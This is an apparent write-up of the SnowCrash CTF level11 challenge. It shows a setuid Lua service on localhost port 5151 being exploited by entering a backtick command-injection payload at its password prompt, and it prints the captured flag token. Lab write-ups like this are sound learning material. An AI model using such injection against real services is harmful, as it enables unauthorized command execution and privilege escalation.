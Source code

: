Level 10 was the hardest so far, let's see what the 11 has to offer us.
Let's keep going with our usual list of files
```
ls -l
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

We have a script in .lua, let's try to execute it:
```
lua: ./level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	./level11.lua:3: in main chunk
	[C]: ?
```

The script is readable, let's take a look at it and check if we can find usefull informations:
```
local server = assert(socket.bind("127.0.0.1", 5151)). -> port 5151
```
We also find a hash
```
if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
```

Let's try to use the script:
```
nc 127.0.0.1 5151
Password: test
Erf nope..
```

As we've previously done let's try to execute a command in the script instead of a password:

```
nc 127.0.0.1 5151
Password: `getflag` > /tmp/test
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

Tried to resolve the easter egg by doing a few things with the hash given to try to find the original password but couldn't decrypt the hash using sha1sum :/
PR me if you find it :)
